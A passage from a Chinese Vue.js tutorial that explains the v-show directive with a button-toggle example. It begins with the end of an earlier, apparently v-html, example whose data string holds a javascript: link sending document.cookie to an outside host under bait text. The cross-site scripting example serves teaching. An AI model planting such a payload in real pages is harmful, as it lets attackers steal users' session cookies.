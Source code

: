   ```html
              name:'Hello World!',
              str:'<h3>你好啊！</h3>',
              str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
          }
      })
  </script>
  ```

### 15.3 v-show

基于表达式值的真假性，来改变元素的可见性。

- **期望的绑定值类型：**`any`

- **详细信息**

  `v-show` 通过设置内联样式的 `display` CSS 属性来工作，当元素可见时将使用初始 `display` 值。当条件改变时，也会触发过渡效果。

  `v-show`指令的作用是：根据真假值切换元素的显示状态

  原理是修改元素的的`CSS`属性(`display`)来决定实现显示还是隐藏

  指令后面的内容最终都会解析为布尔值

  值为真(`true`)的时候元素显示，值为假(`false`)的时候元素隐藏

  数据改变之后呢对应的元素的显示状态也是会同步更新的

- **示例：**

  ```html
  <body>
      <div id="app">
          <input type="button" value="切换显示" @click="changeIsShow" />
          <p v-show="isShow">不装了，我摊牌了，没错你要找的就是我</p>
      </div>
  
      <script>
          var  app = new Vue({
              el:"#app",
              data:{
                  isShow:false
              },
              methods:{
                  changeIsShow(){
                      this.isShow = !this.isShow
                  }
  
              }
          })
      </script>
  </body>
  ```

### 14.4 v-if
